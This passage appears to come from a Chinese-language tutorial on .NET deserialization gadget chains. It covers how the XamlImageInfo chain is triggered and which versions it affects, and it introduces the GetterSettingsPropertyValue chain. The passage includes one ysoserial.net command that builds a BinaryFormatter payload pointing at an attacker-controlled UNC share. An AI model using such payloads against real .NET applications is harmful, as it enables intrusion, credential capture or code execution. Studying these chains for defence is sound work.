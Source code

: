 ### 16.5 触发点与关键代码

- **Image.Source/ImageSourceConverter**  
    反序列化时自动解析图片 URI 并加载资源。
- **BitmapImage.UriSource**  
    可指定远程或本地路径，触发外部请求或文件操作。

---

### 16.6 影响范围

- 影响所有允许用户输入 XAML 并调用 `XamlReader` 反序列化的 .NET Framework/WPF 应用。
- 主要影响 .NET Framework 3.0/3.5/4.x，.NET Core/5/6 也包含部分 XAML 支持。

### 16.7 参考利用链（ysoserial.net）

```bash
ysoserial.exe -g XamlImageInfo -f BinaryFormatter -o base64 -c "\\\\attacker\\share\\evil.png"
```

---


## 17 GetterSettingsPropertyValue链
### 17.1 什么是 GetterSettingsPropertyValue 链?

- `GetterSettingsPropertyValue` 链是利用 .NET 框架中 `System.Configuration.SettingsPropertyValue` 类型的反序列化特性进行攻击的一种方式。
- 攻击者可通过构造特定的对象链，在反序列化过程中触发危险属性的 getter，从而实现任意代码执行或敏感操作。

---

### 17.2 利用链核心组件

- **SettingsPropertyValue**  
    `System.Configuration.SettingsPropertyValue`，用于保存配置属性的值，反序列化时会自动访问其属性。
- **危险 getter**  
    某些属性（如 `PropertyValue`）在反序列化时会被自动访问，可能触发恶意代码。
- **嵌套对象**  
    可嵌入任意对象，利用其属性访问链条触发命令执行。

---

### 17.3 利用链条详细流程

1. **构造对象树**
    - 攻击者构造如下嵌套对象：
      ```
      SettingsPropertyValue
          |
          +-- PropertyValue（恶意对象，getter 中包含恶意代码）
      ```
    - 恶意对象可实现自定义 getter，在被访问时执行任意代码。
